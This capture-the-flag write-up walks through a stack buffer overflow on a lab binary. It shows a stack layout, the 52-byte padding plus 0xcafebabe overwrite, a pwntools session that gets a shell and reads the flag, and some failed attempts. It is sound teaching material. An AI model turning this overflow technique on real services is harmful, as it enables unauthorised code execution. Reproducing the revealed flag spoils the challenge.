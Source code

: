 ```
ebp --> stored ebp ==> │  6C 61 61 61  │
                       ├╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌┤ 
    return address ==> │  6D 61 61 61  │
                       ├╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌┤ 
               key ==> │  EF BE AD DE  │
                       └───────────────┘
                       ╎  .. .. .. ..  ╎
```

## Exploit requirements

We have all the information we need to create an exploit.
	- [x] Value of `key` to overwrite: `0xcafebabe`
	- [x] Distance between the buffer and `key`: `52`

Let's craft our exploit and send it to the listener.

```python
>>> from pwn import *
>>> padding = b"A" * 52
>>> key = p32(0xcafebabe)
>>> payload = padding + key
>>> io = remote('0',9000)
[x] Opening connection to 0 on port 9000
[x] Opening connection to 0 on port 9000: Trying 0.0.0.0
[+] Opening connection to 0 on port 9000: Done
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
```

Now that we have a shell, we can get the flag.

```
[*] Switching to interactive mode
id
uid=1008(bof_pwn) gid=1008(bof_pwn) groups=1008(bof_pwn)
cat ./flag
Daddy_I_just_pwned_a_buff3r!
```

## Stuff I was trying unnecessarily

> I am leaving this here, as a reminder to myself and as a note to others.

```
>>> from pwn import *
>>> padding = b"A" * 52
>>> key = p32(0xcafebabe)
>>> payload = padding + key
>>> io = remote('0', 9000)
```

```
bof@ubuntu:~$ ./bof
overflow me : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xBE\xBA\xFE\xCA

Nah..
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

